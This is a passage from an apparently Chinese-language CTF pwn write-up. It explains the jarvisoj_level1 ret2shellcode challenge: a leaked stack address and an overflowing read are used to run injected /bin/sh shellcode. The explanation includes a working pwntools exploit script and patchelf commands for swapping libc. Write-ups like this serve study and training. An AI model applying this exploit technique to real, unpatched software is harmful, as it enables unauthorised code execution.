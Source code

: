 1. `padding`中`B`起到标识位作用,方便后续交互
2. `payload2`开头`p32(0)`是为了填充`leave`指令
3. `b'/bin/sh'`的地址计算与`b\x00'`截断

# jarvisoj_level1

![image-20240118234607205](../assets/img/old_imgs/image-20240118234607205.png)

- `ret2shellcode`

1. 存在漏洞函数`vulnerable_function`
2. `printf`函数泄露了`buf`栈上地址
3. `read`函数中,`buf`变量中存在溢出
4. 往`buf`写入`shellcode`再跳转到`buf`栈上

```python
from pwn import *
io = process('./level1')

io.recvuntil(b'What\'s this:')
buf_addr = eval(io.recv(10))
shellcode = asm(shellcraft.sh())
payload = shellcode
payload = payload.ljust(0x88,b'\x00')+p32(0)+p32(buf_addr)
io.sendline(payload)
io.interactive()
```

Tips_更换libc和ld:

```shell
bamuwe@qianenzhao:~$ sudo patchelf --set-interpreter /home/bamuwe/pwn_tools/glibc-all-in-one/libs/2.23-0ubuntu11.3_amd64/ld-2.23.so ezheap
bamuwe@qianenzhao:~$ sudo patchelf --replace-needed libc.so.6 /home/bamuwe/pwn_tools/glibc-all-in-one/libs/2.23-0ubuntu11.3_amd64/libc-2.23.so ezheap
```



# pwnable_start
